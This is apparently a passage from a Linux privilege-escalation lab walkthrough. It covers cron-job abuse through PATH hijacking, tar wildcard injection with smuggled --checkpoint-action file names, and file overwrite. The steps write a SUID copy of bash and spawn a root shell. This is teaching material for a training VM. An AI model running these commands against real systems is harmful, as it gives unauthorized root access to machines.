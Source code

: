 **Linux VM**

1. In command prompt type: `cat /etc/crontab`
2. From the output, notice the value of the “PATH” variable.

**Exploitation**

**Linux VM**

1. In command prompt type: `echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh`
2. In command prompt type: `chmod +x /home/user/overwrite.sh`
3. Wait 1 minute for the Bash script to execute.
4. In command prompt type: `/tmp/bash -p`
5. In command prompt type: `id`

---

1. Click 'Completed' once you have successfully elevated the machine 

## Privilege Escalation - Cron (Wildcards)

**Detection**

**Linux VM**

1. In command prompt type: `cat /etc/crontab`
2. From the output, notice the script “/usr/local/bin/compress.sh”
3. In command prompt type: `cat /usr/local/bin/compress.sh`
4. From the output, notice the wildcard (*) used by ‘tar’.

**Exploitation**

**Linux VM**

1. In command prompt type: `echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/runme.sh`
2. `touch /home/user/--checkpoint=1`
3. `touch /home/user/--checkpoint-action=exec=sh\ runme.sh`
4. Wait 1 minute for the Bash script to execute.
5. In command prompt type: `/tmp/bash -p`
6. In command prompt type: `id`

---

1. Click 'Completed' once you have successfully elevated the machine 

## Privilege Escalation - Cron (File Overwrite)

**Detection**

**Linux VM**

1. In command prompt type: `cat /etc/crontab`
2. From the output, notice the script “overwrite.sh”
3. In command prompt type: `ls -l /usr/local/bin/overwrite.sh`
4. From the output, notice the file permissions.
